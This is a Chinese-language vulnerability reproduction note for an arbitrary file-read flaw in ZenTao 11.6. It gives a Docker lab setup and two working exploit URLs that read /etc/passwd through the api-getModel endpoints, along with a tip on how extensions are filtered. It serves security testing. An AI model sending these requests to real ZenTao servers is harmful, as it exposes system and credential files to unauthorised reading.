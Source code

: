 # 禅道 11.6 版本 文件读取漏洞

>**Created by：** 一条‘小龍龙
>
>**Team：** TracelessSec
>
>**漏洞描述：** 禅道 11.6 版本 文件读取漏洞

# 0x01 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，文件读取漏洞

# 0x02 影响版本

禅道 11.6

# 0x03 环境搭建

```
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 http://xxx.xxx.xxx.xxx:8084 安装即可

# 0x04 漏洞复现

## 方式一

```bash
http://{ip}:{port}/zentao/api-getModel-file-parseCSV-fileName=/etc/passwd#/
http://{ip}:{port}/api-getModel-file-parseCSV-fileName=/etc/passwd
```

![Untitled](image/Untitled.png)

> 注意以 `.php` `.txt` 结尾的会被 /framework/base/router.class.php中的parsePathInfo方法 过滤
> 

## 方式二

```bash
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/etc/passwd/1
```
